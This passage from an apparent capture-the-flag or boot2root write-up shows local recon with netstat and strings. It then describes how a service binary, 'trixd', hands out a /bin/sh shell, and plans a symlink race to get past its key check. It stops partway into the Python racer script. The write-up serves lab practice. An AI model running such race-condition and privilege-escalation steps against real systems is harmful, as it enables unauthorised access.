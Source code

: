 Not sure what these keys are for. What does one do when hitting a small roadblock? Moar recon!

Looking at the `netstat` we see another service is active:

```
$ netstat -antop | grep LIST
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      -                off (0.00/0/0)
tcp        0      0 0.0.0.0:1337            0.0.0.0:*               LISTEN      -                off (0.00/0/0)
tcp        0      0 127.0.0.1:7075          0.0.0.0:*               LISTEN      -                off (0.00/0/0)
```

Connecting to it

```
$ nc localhost 7075
Incorrect key
```

Not having any idea what service this is coming from, let's perform a system wide `strings` to try and find the binary responsible for this.

```
$ find / -executable > exes
$ for f in $(cat exes); do echo $f >> output; strings $f | grep "Incorrect key" >> output; done
$ grep Incorrect output -B1
/usr/local/sbin/trixd
Incorrect key
```

And to confirm

```
$ strings /usr/local/sbin/trixd | grep Incorrect
Incorrect key
```

Loading `trixd` into IDA we see that the binary is checking to see if `/mnt/usb/key.txt` is a symlink, and if so, exits immediately. From here, it opens both `/mnt/usb/key.txt` and `/home/puck/key.txt` and checks if they are both the same. If they are the same, we are given a `/bin/sh` shell. Otherwise, we see the `Incorrect key` message.

The idea to beat this is to connect to the service, delete `/mnt/usb/key.txt`, then symlink `/home/puck/key.txt` to `/mnt/usb/key.txt`. If timed correctly, we will symlink after the check, bypassing it.

Not wanting to put `binjitsu` on the VM itself, we can use standard library functions for this portion.

Again, in order to make this work via one script, we will write a script to disk and execute it in order to get our shell with `puck`.

Our new code is below:

```python

# Create our symlink racer on the server

r.sendline(""" echo "
import os
import socket
import telnetlib
import subprocess

HOST = 'localhost'
PORT = 7075

try:
```
